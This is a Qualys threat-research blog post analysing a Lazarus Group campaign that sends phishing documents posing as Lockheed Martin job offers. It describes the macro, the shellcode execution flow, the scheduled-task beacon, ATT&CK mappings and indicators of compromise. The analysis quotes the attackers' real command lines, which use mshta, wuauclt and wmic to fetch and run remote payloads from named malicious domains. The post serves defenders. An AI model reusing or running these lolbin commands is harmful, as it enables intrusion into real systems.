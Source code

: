 # Reference for threat actor for "Lazarus Group, Hidden Cobra, Labyrinth Chollima"

**Title**: LolZarus: Lazarus Group Incorporating Lolbins into Campaigns | Qualys Security Blog

**Source**: https://blog.qualys.com/vulnerabilities-threat-research/2022/02/08/lolzarus-lazarus-group-incorporating-lolbins-into-campaigns

## Content









LolZarus: Lazarus Group Incorporating Lolbins into Campaigns | Qualys Security Blog


















































































Discussions

Back to main menu
BROWSE BY TOPICBROWSE BY TOPIC
Global IT Asset Management
IT Security
Compliance
Cloud & Container Security
Web App Security
Certificate Security & SSL Labs
Developer API
Cloud Platform
Start a discussion


Blog
Training
Docs
Support
 





Community





































Blog Home

 





LolZarus: Lazarus Group Incorporating Lolbins into Campaigns 



 


 Akshat Pradhan, Senior Engineer, Threat Research, Qualys 

February 8, 2022December 23, 2022 - 5 min read						



 


Last updated on: December 23, 2022 

Table of ContentsSample AnalysisConclusionATT&CK MappingIOCSDomains

Qualys Threat Research has identified a new Lazarus campaign using employment phishing lures targeting the defence sector. The identified variants target job applicants for Lockheed Martin. This blog details the markers of this campaign, including macro content, campaign flow and phishing themes of our identified variants and older variants that have been attributed to Lazarus by other vendors.
The Qualys Research Team recently identified a new Lazarus campaign using employment phishing lures targeting the defence sector. The identified variants target job applicants for Lockheed Martin Corporation, which is an American aerospace, arms, defence, information security, and technology corporation. This is thematically similar to other observed variants where Lazarus has posed as defence companies like Northrop Grumman and BAE Systems with job openings. We refer to this campaign as “LolZarus” due to the use of different lolbins in observed samples, some of which are the lolbin’s first recorded usage by a well-known adversary.
Sample Analysis
We identified two phishing documents: “Lockheed_Martin_JobOpportunities.docx” and “Salary_Lockheed_Martin_job_opportunities_confidential.doc”. Both variants were authored by the same user, named “Mickey”. The methodology used for control flow hijack and the macro content is similar across both samples.
MD5: a27a9324d282d920e495832933d486ee
Name: Salary_Lockheed_Martin_job_opportunities_confidential.doc

Fig1. LockHeed Recruitment Lure
The macro uses aliases to rename the APIs that it uses (fig. 2).

Fig2. Renamed API aliases.
The initial entry point for the macro is via the ActiveX Frame1_Layout to automatically execute once ActiveX control is enabled (fig. 3).

Fig3. EntryPoint of obfuscated Macro.
The macro starts by loading WMVCORE.DLL, which is a legitimate windows dll for windows media. Interestingly, to make the macro seem more innocuous, Lazarus uses function names identical to the exported functions of WMVCORE.DLL and variable names thematically related to playback (fig. 4).

Fig.4 WMV playback variables and wmvcore.dll function names
The macro uses a check for a document variable before entering its main functionality block. This variable is set at the end to ensure that subsequent opening of the document does not execute it again.
The second stage payload is shellcode that is embedded as a base64 encoded string array inside the macro that is decoded by using CryptStringToBinaryW (fig. 5). Other variants have used the UuidFromStringA function to decode the embedded payload and write it to an executable Heap.









Fig.5 Payload decoded via CryptStringToBinaryW.
The decoded shellcode then overwrites the WMIsAvailableOffline function from WMVCORE.dll by retrieving its address and changing its memory permissions.











Fig.6 VirtualProtect and memcpy’s.
The callback to the shellcode is achieved by retrieving the KernelCallbackTable pointer from the PEB structure of the current process via NtQueryInformationProcess, and then patching the _fnDWORD pointer to point to WMIsAvailableOffline. Whenever winword makes any graphical call, the shellcode executes. This technique to hijack control flow has also been used by other sophisticated attackers such as FinFisher. Lazarus has also used other novel methods to execute shellcode such as by using the function EnumSystemLocalesA as a callback to shellcode written to executable heap.
The macro then sets a document variable to ensure that subsequent runs would not execute the shellcode decode and the KernelCllbackTable hijack again. It also retrieves a decoy document from https://markettrendingcenter[.]com/lk_job_oppor[.]docx and displays it (fig. 7.)

Fig.7 Decoy Document.
The shellcode mainly sets up a periodic beacon out to https://markettrendingcenter[.]com/member[.]htm by creating a new staging folder C:\WMAuthorization, writing a vbs file (WMVxEncd.vbs) to it, and creating a corresponding Scheduled task to run the vbs file every 20 minutes (fig. 8). shellObj is the Wscript.Shell object that the vbs file uses to execute the beacon command.
shellObj.Run "forfiles /p c:\windows /m HelpPane.exe /c ""mshta C:\WMAuthorization\WMPlaybackSrv ""https://markettrendingcenter.com/member.htm""""", 0, True

Fig.8 Schedule Task Dump
Here, WMPlaybackSrv is a renamed wscript.exe and WindowsMediaPlayerVxEncdSrv is a renamed mshta.exe. Another variant of the campaign uses the lolbin wuauclt.
cmd /C ''C:\Windows\system32\wuauclt.exe' /UpdateDeploymentProvider wuaueng.dll /RunHandlerComServer
Earlier variants have used a copy of wmic.
%COMSPEC% /c Start /miN c:\Intel\hidasvc ENVIRONMENT get STATUS /FORMAT:”hxxps://www.advantims[.]com/GfxCPL.xsl”
Additional vendors have also identified a variant that uses pcalua.exe.Unfortunately, we were unable to get further details about the remote htm payload as it returns a 404 error.
Conclusion
We attribute this campaign to Lazarus as there is significant overlap in the macro content, campaign flow, and phishing themes of our identified variants as well as older variants that have been attributed to Lazarus by other vendors. Additional vendors have reported on the current campaign while attributing it to Lazarus.
Lazarus continues to evolve its capabilities by utilizing lesser-known shellcode execution techniques and incorporating various lolbins as part of its campaign. Qualys will continue to monitor for other similar phishing lures related to Lazarus.
Existing customers of Qualys can use the following QQL’s to identify this activity:
mitre.attack.technique.id:”Q0026” is 
mitre.attack.technique.id:”T1218.005”
mitre.attack.technique.id:”T1202”
mitre.attack.technique.id:”T1036.003”
mitre.attack.technique.id:”T1059.005”
ATT&CK Mapping
Phishing: Spearphishing Attachment T1566.001
Windows Management Instrumentation (T1047)
Masquerading: Rename System Utilities (T1036.003)
Signed Binary Proxy Execution: Mshta (T1218.005)
Command and Scripting Interpreter: Visual Basic (T1059.005)
Scheduled Task/Job: Scheduled Task (T1053.005)
Native API (T1106)
Hijack Execution Flow (T1574)
Command and Scripting Interpreter: Windows Command Shell (T1059.003)
IOCS
Hashes
e87b575b2ddfb9d4d692e3b8627e3921a27a9324d282d920e495832933d486ee3f326da2affb0f7f2a4c5c95ffc660cc490c885dc7ba0f32c07ddfe02a04bbb9712a8e4d3ce36d72ff74b785aaf18cb0a27a9324d282d920e495832933d486eef2a0e9034d67f8200993c4fa8e4f5d15
Domains
markettrendingcenter.com
lm-career.com
advantims.com

Related
 








Written by
 Akshat Pradhan, Senior Engineer, Threat Research, Qualys
Write to Akshat at apradhan@qualys.com



Like
Share



 


Share your Comments 


Comments Cancel replyYour email address will not be published. Required fields are marked *CommentName
Email
 Save my name, email, and website in this browser for the next time I comment.
 

Δ 









					Join the discussion today!


Learn more about Qualys and industry best practices.
				

Share what you know and build a reputation.
				

Secure your systems and improve security for everyone.
				



Start a discussion




Twitter
LinkedIn
Facebook
YouTube
Vimeo
 


QualysQualys.com
Qualys Community Edition
Qualys Merchandise Store
Qualys CommunitiesVulnerability Management
Policy Compliance
PCI Compliance
Web App Scanning
Web App Firewall
Continuous Monitoring
Security Assessment Questionnaire
Threat Protection
Asset Inventory
AssetView
CMDB Sync
Endpoint Detection & Response
Security Configuration Assessment
File Integrity Monitoring
Cloud Inventory
Certificate Inventory
Container Security
Cloud Security Assessment
Certificate Assessment
Out-of-band Configuration Assessment
Patch Management
Developer API
Cloud Agent
Dashboards & Reporting
DiscussionsAll discussions
Global IT Asset Management
IT Security
Compliance
Cloud & Container Security
Web App Security
Certificate Security & SSL Labs
Developer API
BlogAll posts
Qualys Insights
Product and Tech
Vulnerabilities and Threat Research
Release Notifications
TrainingOverview
Certified Courses
Video Library
Instructor-led Training
DocsOverview
Release Notes
SupportSupport Portal




© 2024 Qualys, Inc. All rights reserved. Privacy Policy




 

 




















































































Loading Comments...



 


Write a Comment...




Email (Required)



Name (Required)



Website


























































